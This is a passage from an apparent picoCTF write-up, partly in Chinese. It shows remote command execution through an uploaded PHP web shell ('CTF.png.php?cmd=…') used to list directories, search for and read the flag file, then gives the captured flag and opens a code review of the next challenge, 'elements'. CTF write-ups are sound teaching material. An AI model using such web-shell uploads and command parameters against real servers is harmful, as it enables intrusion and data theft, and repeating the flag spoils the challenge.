http://atlas.picoctf.net:64632/uploads/CTF.png.php

#### 4. RCE & Find flag
```URL
http://atlas.picoctf.net:55476/uploads/CTF.png.php?cmd=ls /
http://atlas.picoctf.net:55476/uploads/CTF.png.php?cmd=find%20/%20-type%20f%20-name%20flag*
```

![image](https://hackmd.io/_uploads/BkquackAT.png)
> 找不到

```URL
http://atlas.picoctf.net:55476/uploads/CTF.png.php?cmd=cat%20../MQZWCYZWGI2WE.txt
```
![image](https://hackmd.io/_uploads/ry7ApqyRa.png)
> 最後在 ../MQZWCYZWGI2WE.txt 找到

### GET FLAG
**FLAG:picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_d3ac625b}**

## elements
![image](https://hackmd.io/_uploads/ByY8-s10a.png)
http://rhea.picoctf.net:59823/

![image](https://hackmd.io/_uploads/HJy5bjy0T.png)

### elements Solution
### Code Review
● index.js
```javascript=
// this entire thing is basically a knockoff of infinite craft
// https://neal.fun/infinite-craft/

const onlineHost = 'https://elements.attest.lol'; //主機位址

const buttons = document.getElementById('elements'); //取得來自HTML的elements

// these were all generated by ai, yes they have some really weird results
```